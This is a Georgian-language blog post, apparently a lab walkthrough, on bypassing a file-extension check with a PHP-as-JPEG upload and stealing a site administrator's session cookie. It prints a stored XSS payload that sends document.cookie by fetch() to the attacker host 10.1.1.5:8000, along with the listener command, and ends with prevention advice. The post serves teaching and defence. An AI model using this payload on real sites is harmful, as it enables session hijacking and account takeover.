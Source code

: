 ```yaml
---
title: "მავნე PHP კოდი და XSS"
date: 2024-11-29 22:21:00 +0400
categories: [CyberSecurity,Hacking]
tags: [Web Exploitation]
---
```


## `PHP` vs `html`

ზოგადად, რა განსხვავებაა `PHP`-სა და `html`-ს შორის? ამ ორი ენის კოდი საკმაოდ ჰგავს ერთმანეთს. იდეაში, `PHP`-ს შეუძლია მთლიანი `html` კოდის ქონა მისივე ფაილში. მაგალითად:

```php
<?php
/* აქ კოდი */
?>

<html>
</html>

<?php
/* აქ კოდი */
?>
```

საქმე ისაა, რომ `PHP`-ს შეუძლია მისი ფუნქციონალი როგორც `Backend` სერვერად გამოიყენოს, ხოლო მიღებული `html` კოდი `Frontend`-ად.

ანუ, გამოდის, რომ ყველა ის ხაზი, რომელიც `<?php ?>` ტეგებშია მოქცეული, დარჩება სერვერის მხარეს, ხოლო სხვა დანარჩენი, კლიენტთან გაიგზავნება.

ამ ყველაფრის გამო, `PHP`-ში დაწერილი კოდი, საკმაოდ მოწყვლადი შეიძლება იყოს.

**ამ ბლოგში, განვიხილავ იმას, თუ როგორ შეიძლება ადმინისტრატორის `cookie`-ების მოპარვა სერვერზე მავნე `PHP` კოდის ატვირთვით**.

## ვამზადებ გარემოს

სცენარი რომ გავითამაშო, საჭიროა გარემოს ქონა. ამის გამო, `GNS3`-ში ავაწყე ვირტუალური ქსელი, სადაც იქნება შემტევი, კლიენტი(საიტის ადმინისტრატორი), `HTTP` სერვერი, რომელზეც საიტი დაიჰოსტება და ბოლოს როუტერი, რომელიც `DHCP` სერვერი იქნება და `IPv4` მისმართებს გასცემს შემტევზე და ადმინისტრატორზე.

![1.png](https://44b4c0.github.io/assets/img/posts/16/1.png)

ასეთი იქნება ქსელი. მოკლედ, კლიენტი `admin` ანგარიშით ექნება შესული სისტემაში და ჰაკერი მის მოპარვას შეძლებს.

საქმე ისაა, რომ საიტი მოწყვლადია და ჰაკერს შეუძლია ეს სათავისოდ გამოიყენოს.

![2.png](https://44b4c0.github.io/assets/img/posts/16/2.png)

მოცემულია ფაილი, რომელშიც `PHP` კონტენტია მოთავსებული, მაგრამ თავს ასაღებს, როგორც `JPEG/IMAGE` ფაილი. ეს გვერდს უვლის ე.წ. `file extension checking` ფუნქციას.

> **📰 საინტერესო ფაქტი:**
> 
> `file extension checking`-ის დროს, ვებ სერვერი ამოწმებს ფაილის დაბოლოებას(სუფიქსს). მაგალითად, შესაძლოა `Backend` ლოგიკაში ეწეროს, რომ მხოლოდ ის ფაილები უნდა მიიღოს სერვერმა `POST` ფორმით, რომელიც ბოლოვდება `.png`, `.jpeg` ან `.svg` სუფიქსებით. ამ მაგალითში, კი ფაილის სახელია `config.php.jpeg`, რაც `PHP` ფაილს `JPEG/IMAGE` ფაილად ასაღებს.

## შეტევის პროცესი

როდესაც ჰაკერი ფაილს სერვერზე ატვირთავს, ეს ფაილი სპეციალურ ფოლდერში(დირექტორიაში) განთავსდება. აქედან გამომდინარე, ჰაკერს შეუძლია აიღოს ლინკი, რომელიც ამ ფაილზე მიუთითებს და გაუგზავნოს საიტის ადმინისტრატორს. როდესაც ადმინისტრატორი გადავა ლინკზე, მისი ბრაუზერი გარკვეულ ქმედებებს შეასრულებს.

#### რა წერია `config.php.jpeg` ფაილში?

ახლა დროა ის კოდი განვიხილო, რაც ამ ფაილში ჩავწერე:

```php
<script>
const cookie = document.cookie;

fetch("http://10.1.1.5:8000/" + cookie);
</script>
```

თავდაპირველად, ბრაუზერის `cookie` ჩანაწერებს ვინახავ `cookie` კონსტენტში(ცვლადში) და შემდეგ ვიყენებ `fetch` ფუნქციას, რომელიც `GET` მოთხოვნით მიადგება `10.1.1.5`-ს(ჰაკერს) `8000/tcp` პორტზე, სადაც იქნება `PHP HTTP` სერვერი და ჰაკერი მიიღებს ადმინისტრატორის `cookie`-ებს.

![3.png](https://44b4c0.github.io/assets/img/posts/16/3.png)

აქ გარკვევით ჩანს, რომ ჰაკერი არ არის ადმინისტრატორი და `1337` მომხმარებლითაა შესული, რომელიც სტანდარტულ პრივილეგიებს ფლობს. ჰაკერს კი ადმინისტრატორის ანგარიშზე შესვლა სურს.

![4.png](https://44b4c0.github.io/assets/img/posts/16/4.png)

როგორც ჩანს, სერვერმა დაიჯერა, რომ ფაილი ვალიდურია და შეინახა მავნე `PHP` კოდი. ახლა, დროა ჰაკერმა `PHP HTTP` სერვერი ჩართოს და დაგენერირებული ლინკი ადმინისტრატორს გაუგზავნოს:

```php
php -S 0.0.0.0:8000
```
![5.png](https://44b4c0.github.io/assets/img/posts/16/5.png)

ეს არის ადმინისტრატორის `PHP Session Cookie`.

როდესაც ადმინისტრატორი მახეს წამოეგება და ლინკზე გადავა, ჰაკერი მიიღებს `Cookie` მნიშვნელობებს:

![6.png](https://44b4c0.github.io/assets/img/posts/16/6.png)

ამის შემდეგ, ჰაკერი შეცვლის `Cookie`-ებს თავისივე ბრაუზერში და გახდება ადმინისტრატორი:

![7.gif](https://44b4c0.github.io/assets/img/posts/16/7.gif)

## რა გამოვიდა?

საკმაოდ საინტერესოა იმის ნახვა, თუ რამდენ პრობლემას ქმნის საიტზე მავნე `PHP` კოდის ატვირთვის შესაძლებლობა. რა თქმა უნდა, აქედან ე.წ. `WebShell`-ის მიღებაც შეიძლება. საქმე ისაა, რომ ამ შემთხვევაში ჰაკერს არ სჭირდება სერვერზე სრული წვდომა. მას მხოლოდ ადმინისტრატორის ანგარიშზე სჭირდებოდა შესვლა.

ყველაზე საინტერესო აქ ისაა თუ როგორ მარტივად შეიძლება `HTTP` მოთხოვნის გაგზავნა `fetch` ფუნქციის გამოყენებით. ამის პრევენცია რომ მოხდეს, საჭიროა იმ ფაილების კარგად შემოწმება, რომლებსაც მომხმარებლები ტვირთავენ სერვერზე. ასევე საჭიროა ე.წ. `Zero Trust` პოლიტიკის გატარება, რაც ნიშნავს იმას, რომ არაფერია სანდო.

განსაკუთრებით, ბოლო, `GIF` ფაილი წარმოაჩენს იმ საშიშროებას, რასაც შეიძლება საიტის ადმინისტრატორები წააწყდნენ.

#### ფიშინგი მხოლოდ საკრედიტო ბარათებს არ იპარავს

მგონი, ამ ბლოგიდან გასაგებია, რომ ფიშინგის დროს შესაძლოა საკრედიტო ბარათების ინფორმაცია საერთოდ არ იყოს მნიშვნელოვანი და ყურადღება საერთოდ სხვა რამისკენ იყოს მიპყრობილი. ფაქტია, ჰაკერმა შეძლო და `GET` მოთხოვნით ადმინისტრატორისგან მიიღო მისი `Cookie`-ები.

## როგორ მუშაობს `PHPSESSID`, ანუ `PHP Session ID`?

ავთენტიფიკაციის ლოგიკა მარტივია. მომხმარებელს შეყავს მეილი/მეტსახელი და პაროლი, რომელსაც `Backend` სერვერი მიიღებს და მონაცემთა ბაზაში ჩანაწერებს გადაამოწმებს. თუ ყველაფერი ემთხვევა, სერვერი დააგენერირებს სესიის იდენტიფიკატორს და მომხმარებელს გაუგზავნის. ამის შემდეგ, სერვერი მომხმარებლისგან მიღებული ყოველი მოთხოვნის `Header`-ებიდან ამოიღებს ამ `cookie`-ს და მის ვალიდურობას შეამოწმებს.

აქ პრობლემა ისაა, რომ ვისაც ეს `cookie` ხელში ჩაუვარდება, ყველა შეძლებს ამ იდენტიფიკატორზე მიბმული ანგარიშიდან გარკვეული ქმედებების განხორციელებას. ამის გამო, საჭიროა `CSRF Protection` მექანიზმების ქონა სერვერზე.
